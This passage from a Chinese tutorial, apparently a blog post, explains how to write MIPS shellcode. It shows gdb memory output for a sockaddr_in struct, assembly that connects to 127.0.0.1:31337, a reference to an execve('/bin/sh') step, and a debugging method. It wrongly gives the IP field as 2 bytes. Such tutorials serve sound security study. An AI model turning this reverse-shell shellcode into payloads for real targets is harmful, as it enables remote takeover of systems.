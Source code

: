 整个结构体大小固定为 16 字节。

根据这个结构体的格式，我们将示例代码编译成可执行程序，在 gdb 中调试到相应位置，查看相关的的内存表示。查看 `sockaddr_in` 结构体的内存值：

```
pwndbg&gt; x/2xw 0x76fff5ca
0x76fff5ca:    0x00027a69    0x7f000001
```

`0x0002`：表示 TCP 协议族，大小为 2 字节。

`0x7a69`：表示端口号，大小为 2 字节。

`0x7f000001`：表示 IP 地址，大小为 2 字节，在这里表示的 IP 为 127.0.0.1。

相应的汇编代码如下：

```
lw $v0,10($sp)
move $a0,$v0
addiu,$a2,$zero,0x10
lui $t6,0x2                                // 协议族为 2
ori $t6,$t6,0x7a69                    // 端口号为 0x7a69
sw $t6,20($sp)                         // 将 0x00027a69 存入栈中
lui $t7,0x7f00
ori $t7,$t7,0x1
sw $t7,24($sp)                         // 将 0x7f000001 存入栈中，与 0x00027a69 相邻
la $a1,20($sp)                         // 栈地址赋值给 a1 寄存器

addiu $v0,$zero,4170            // sys_connect
syscall 0x40404
```

在调试中类似这种情况就是对的：

[![](./img/202965/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_174_/t015ce6381d132da01d.png)

### execve 系统调用

这里的 `execve` 的系统调用同样是执行 `execve("/bin/sh",0,0);` 函数，写法参考上文，再次不在赘述。



## 调试方法

在编写 shellcode 的过程中，可以对每一部分的汇编代码进行调试，调试方法如下。

1 . 将汇编语句加上 main 符号：

```
.global main

main:
        li $a0,2
        li $a1,1
        li $a3,0
        li $v0,4183
        syscall 0x40404
```
